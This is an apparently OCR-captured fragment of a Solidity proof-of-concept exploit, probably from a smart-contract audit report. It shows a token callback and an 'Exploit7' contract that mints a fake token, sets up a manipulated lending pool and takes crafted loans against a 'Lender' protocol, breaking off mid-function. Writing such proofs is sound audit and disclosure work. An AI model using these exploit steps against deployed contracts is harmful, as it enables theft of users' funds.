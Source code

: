 ```solidity
        (bool status,) = owner.call(abi.encodeWithSignature("tokensReceived(address,address,uint256)", from, to, amount));
        require(status, "call failed");
    }
}
```

```solidity
File: Exploit7.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {ExploitToken} from "./ExploitToken.sol";
import {ERC20} from "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
import "../utils/Structs.sol";
import "../Lender.sol";

contract Exploit7  {
    Lender lender;
    address collateralToken;
    ExploitToken exploitToken;
    bool loanBorrowed;
    uint256 i;

    constructor(Lender _lender, address _collateralToken) {
        lender = _lender;
        collateralToken = _collateralToken;
    }

    function attack(address _collateralToken) external {
        ERC20(_collateralToken).approve(address(lender), type(uint256).max);
        // (1) Mint exploitToken
        exploitToken = new ExploitToken(1_000_000_000*10*18);
        ERC20(exploitToken).approve(address(lender), type(uint256).max);
        // (2) Create a pool of exploitTokens
         Pool memory pool = Pool({
            lender: address(this),
            loanToken: address(exploitToken),
            collateralToken: _collateralToken,
            minLoanSize: 1,
            poolBalance: 1_000_000*10*18,
            maxLoanRatio: type(uint256).max,
            auctionLength: 1 days,
            interestRate: 0,
            outstandingLoans: 0
        });
        bytes32 poolId = lender.setPool(pool);
        // (3) Take a loan of exploitTokens
        Borrow memory b = Borrow({
            poolId: poolId,
            debt: 1,
            collateral: 1_000*10**18
        });
        Borrow[] memory borrows = new Borrow[](1);
        borrows[0] = b;        
        lender.borrow(borrows);
        // (4) Take another loan of exploitTokens to increase poolBalance
        b = Borrow({
            poolId: poolId,
            debt: 1_000,
            collateral: 1
        });
        borrows = new Borrow[](1);
```